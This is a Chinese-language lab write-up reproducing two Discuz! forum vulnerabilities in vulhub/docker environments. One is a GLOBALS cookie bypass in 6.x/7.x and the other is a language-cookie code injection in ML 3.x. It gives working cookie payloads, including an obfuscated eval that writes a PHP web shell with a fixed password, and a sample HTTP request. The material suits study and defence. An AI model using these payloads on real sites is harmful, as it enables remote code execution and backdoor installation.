




## Discuz! 6.x/7.x 全局变量防御绕过漏洞

### 漏洞原理

由于php5.3.x版本里php.ini的设置里request_order默认值为GP，导致Discuz! 6.x/7.x 全局变量防御绕过漏洞。

PHP中预定义了几个超级全局变量（superglobals） ，这意味着它们在一个脚本的全部作用域中都可用。 你不需要特别说明，就可以在函数及类中使用。

PHP 超级全局变量列表:

- $GLOBALS
- $_SERVER
- $_REQUEST
- $_POST
- $_GET
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION

$GLOBALS 是PHP的一个超级全局变量组，在一个PHP脚本的全部作用域中都可以访问。$GLOBALS 是一个包含了全部变量的全局组合数组。变量的名字就是数组的键。

~~~php
<?php 
$x = 75; 
$y = 25;
$z = 1;
function addition() { 
  $GLOBALS['z'] = $GLOBALS['x'] + $GLOBALS['y']; 
    //$GLOBALS可以访问，修改任意全局变量
}
addition(); 
echo $z; 
?>
------
95    
~~~

在register_globals=on下可以提交GLOBALS变量，如果攻击者通过GLOBALS修改命令执行的关键参数变量，这种情况是十分危险的。Discuz中有防御此情况的代码：

```php
if (isset($_REQUEST['GLOBALS']) OR isset($_FILES['GLOBALS'])) {
    exit('Request tainting attempted.');
}
//如果REQUEST或FILES中提交了GLOBALS变量，就会终止
```

**$_GET** 变量接受所有以 **get** 方式发送的请求，及浏览器地址栏中的 **?** 之后的内容。

**$_POS**T 变量接受所有以 post 方式发送的请求，例如，一个 form 以 **method=post** 提交，提交后 php 会处理 post 过来的全部变量。

**$_REQUEST** 支持两种方式发送过来的请求，即 **post** 和 **get** 它都可以接受

$_REQUEST这个超全局变量的值受php.ini中request_order的影响，在php5.3.x系列中，request_order默认值为GP，也就是说默认配置下$_REQUEST只包含$_GET和$_POST而不包括$_COOKIE。通过 COOKIE就可以提交GLOBALS变量。这样一来就绕过了上述防御代码。

总结
由于php5.3.x版本里php.ini的设置里request_order默认值为GP，
导致$_REQUEST中不再包含$_COOKIE，
我们通过在Cookie中传入$GLOBALS来覆盖全局变量，造成代码执行漏洞。

利用条件 register_globals=on  && request_order="GP"


### 漏洞复现

漏洞环境 /vulhub/discuz/wooyun-2010-080723

进入一个任意帖子界面



抓取数据包GET /viewthread.php?tid=7&extra=，修改cookie为

~~~
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
~~~

即可执行phpinfo



写入shell，x.php  密码：pwd

~~~
GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
------
eval(fputs(fopen('x.php','w'),'<?php @eval($_POST[pwd])?>');)
~~~

可以使用蚁剑连接。


## discuz-ml3x-cnvd-2019-22239 

Discuz Ml v3.x 前台Getshell

**Discuz! ML v.3.4
Discuz! ML v.3.3
Discuz! ML v.3.2**

### 漏洞原因

由于Discuz! ML对于cookie字段的不恰当处理造成的
cookie字段中的language参数未经过滤，直接被拼接写入缓存文件之中，而缓存文件随后又被加载，从而造成代码执行

攻击者通过在请求流量的cookie字段中的language参数处插入构造的payload，进行远程代码执行利用，该漏洞利用方式简单，危害性较大。

### 漏洞复现

环境 docker run -p 80:80 boyhack/discuz_ml

问题出在`cookie`中`xxxx_language=`字段

~~~
GET /forum.php HTTP/1.1
Host: 101.43.138.109
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: nUR_sid=3d4t39; nUR_auth=ab2dediL0NYgAcwIonu5BwHx6r0m5k9ZinWVt%2BunXybqAFcy4VoeeOuljAkN2gSCR3%2B2b9P2nD6bpL28J6KIcQ; nUR_visitedfid=2; UI81_2132_saltkey=EoPMyQQr; UI81_2132_language=sc; UI81_2132_lastvisit=1647393802; UI81_2132_sid=qVeYe2; UI81_2132_lastact=1647397410%09home.php%09misc
Connection: close
~~~

修改为

~~~
UI81_2132_language='.phpinfo().'
~~~



`xxxx_language=`的前缀是由cookiepre确定的，利用时根据实际情况修改。



